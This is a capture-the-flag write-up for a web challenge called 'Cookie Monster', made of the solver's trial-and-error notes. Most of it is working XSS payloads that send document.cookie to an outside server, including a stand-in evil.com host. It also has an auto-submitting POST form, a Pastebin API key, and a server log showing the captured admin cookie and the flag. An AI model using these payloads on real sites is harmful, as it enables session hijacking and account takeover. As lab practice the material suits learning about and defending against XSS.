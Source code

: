 # Cookie Monster

## Web: 200 points

## Challenge

A skid hacker who's out to get me is working on a forum. Right now the only accessible page is
http://challenges.laptophackingcoffee.org:1337/dev.php.

We've found his admin panel at
http://challenges.laptophackingcoffee.org:1337/dev.php?page=admin
and we know he's using cookies for authentication.

Steal his cookies and access the admin panel to delete the site.

He's on the LHC discord server as @Elite Hacker#2489, He's expecting his buddy Jerry to send him a link with some documentation, maybe you can use that information somehow?

[ [Start](http://challenges.laptophackingcoffee.org:1337/dev.php) ]

Note: The server resets to default every 30 minutes. All progress will be lost

## Solution

what am I suppose to do for the Cookie Monster challenge? I see that it has a XSS vuln and I'm pretty sure I'm suppose to send a cookie logger to the Elite Hacker#2489 and then add his cookie to mine to get the flag-
i'm clearly stupid as you can tell, so i have no idea how to do this or if i'm doing this correct..

```javascript
<script>
var node1 = document.createElement("div");
var textnode = document.createTextNode(document.cookie);
node1.appendChild(textnode);
var node2 = document.createElement("div");
node2.appendChild(textnode);
document.body.appendChild(node1);
document.body.appendChild(node2);
document.location="34.70.24.215:8888/c?"+document.cookie
</script>
```

```javascript
<script>
document.body.innerHTML += "hello world";
</script>
```

Pastebin
```javascript
// 1. api_dev_key - which is your unique API Developers Key.
// 2. api_option - set as paste, this will indicate you want to create a new paste.
// 3. api_paste_code - this is the text that will be written inside your paste.
<script>
let data = {api_dev_key: "ef18a18477ac0ba892c5ecef221bc779", api_option: "paste", api_paste_code: "hello world"};

fetch("https://pastebin.com/api/api_post.php", {
  method: "POST", 
  body: JSON.stringify(data)
}).then(res => {
  console.log("Request complete! response:", res);
});
</script>
```

```
Access to fetch at 'https://pastebin.com/api/api_post.php' from origin 'http://challenges.laptophackingcoffee.org:1337' has been blocked by CORS policy: No 'Access-Control-Allow-Origin' header is present on the requested resource. If an opaque response serves your needs, set the request's mode to 'no-cors' to fetch the resource with CORS disabled.
```

```javascript
<script>
var xhr = new XMLHttpRequest();
xhr.open("POST", "https://pastebin.com/api/api_post.php", true);
xhr.setRequestHeader('Content-Type', 'application/json');
xhr.send(JSON.stringify({
    api_dev_key: "ef18a18477ac0ba892c5ecef221bc779", 
    api_option: "paste", 
    api_paste_code: "hello world"
}));
</script>
```

```
Access to XMLHttpRequest at 'https://pastebin.com/api/api_post.php' from origin 'http://challenges.laptophackingcoffee.org:1337' has been blocked by CORS policy: Response to preflight request doesn't pass access control check: No 'Access-Control-Allow-Origin' header is present on the requested resource.
```

```
<script>
document.write('<img src="https://yourserver.evil.com/collect.gif?cookie=' + document.cookie + '" />')
</script>
```

Step 1: Create an instance on google cloud. Spin up a VM. Install Apache. Run python http server:
```
$ python3 -m http.server 8888
```

```
<img src=eval('34.70.24.215:8888/c?'+document.cookie)>
```

```javascript
<script>
var myImage = document.createElement("IMG");
myImage.setAttribute("src", "34.70.24.215:8888/c?"+document.cookie);
document.body.appendChild(myImage);
</script>

// https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection
<img src='test' onerror=document.location="http://34.70.24.215:8888/c?"+document.cookie;>
```

```javascript
// https://security.stackexchange.com/questions/49185/xss-cookie-stealing-without-redirecting-to-another-page
<img src=x onerror=this.src='http://34.70.24.215:8888/?c='+document.cookie>
```

```
<h2>test</h2>
<script>
image = new Image(); 
image.src='http://34.70.24.215:8888/?c='+document.cookie;
</script>
```
^ THIS WORKS. but does NOT persist between sessions. hmm.

* https://www.w3schools.com/tags/tag_script.asp
* https://www.w3schools.com/jsref/met_node_appendchild.asp
* https://pastebin.com/api
* https://stackoverflow.com/questions/6396101/pure-javascript-send-post-data-without-a-form
* https://security.stackexchange.com/questions/49185/xss-cookie-stealing-without-redirecting-to-another-page
* https://www.youtube.com/watch?v=HbzI3ubOos0

```
Access to XMLHttpRequest at 'http://challenges.laptophackingcoffee.org:1337/dev.php' from origin 'http://34.70.24.215' has been blocked by CORS policy: Response to preflight request doesn't pass access control check: No 'Access-Control-Allow-Origin' header is present on the requested resource.
```

https://portswigger.net/blog/exploiting-xss-in-post-requests
```html
<form name=MyForm action=http://challenges.laptophackingcoffee.org:1337/dev.php method=post>
<input type=hidden name=message value="<script>
image = new Image(); 
image.src='http://34.70.24.215:8888/?c='+document.cookie;
</script>">
</form>
<script>
document.MyForm.submit();
</script>
```

```
&quot;&gt;&lt;script&#32;src=http://attacker/ bad.js&gt;&lt;/script&gt;
<script>
image = new Image(); 
image.src='http://34.70.24.215:8888/?c='+document.cookie;
</script>
```

```
z@test-lab:/var/www/html$ python3 -m http.server 8888
Serving HTTP on 0.0.0.0 port 8888 (http://0.0.0.0:8888/) ...
64.44.81.92 - - [25/Jun/2020 02:41:06] "GET /?c=_ga=GA1.2.1731152959.1592886096 HTTP/1.1" 200 -
35.237.149.50 - - [25/Jun/2020 02:41:54] "GET /?c=lhcxssadmin=true HTTP/1.1" 200 -
```

```
H4X1N6 F0RU|V| D3\/

Your flag is LHC{P05t3d_4_an_xSs}
```
